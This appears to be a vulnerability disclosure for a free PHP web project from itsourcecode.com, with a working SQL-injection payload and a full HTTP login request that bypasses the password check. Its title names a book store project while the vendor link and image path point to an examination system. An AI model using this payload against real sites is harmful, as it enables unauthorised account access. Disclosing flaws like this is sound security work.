 # Online Book Store Project v1.0 by itsourcecode.com has SQL injection
**Vul_Author:** Wenxun Wang

**vendors:** https://itsourcecode.com/free-projects/php-project/online-examination-system-in-php/

**Vulnerability url:** /Online/query/loginExe.php

**Vulnerability location:** /Online/query/loginExe.php


**[+] Payload:** username=jane@gmail.com'#&pass=

​	Leak place : username

**Correct username and password:** username=jane@gmail.com&pass=jane

**Request package**：try to login without password

```
POST /Online/query/loginExe.php HTTP/1.1
Host: localhost
Content-Length: 31
sec-ch-ua: "-Not.A/Brand";v="8", "Chromium";v="102"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/Online/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=hlrckqkq9743hpeup42er0t684
Connection: close

username=jane@gmail.com'#&pass=
```

**SQL injection result**：(line 12 of the resonse) login successfully without password

![sql_injection](https://github.com/iknownt/bug_report/blob/main/vendors/itsourcecode.com/Onlin-Examination-System/images/sql_injection1.png)

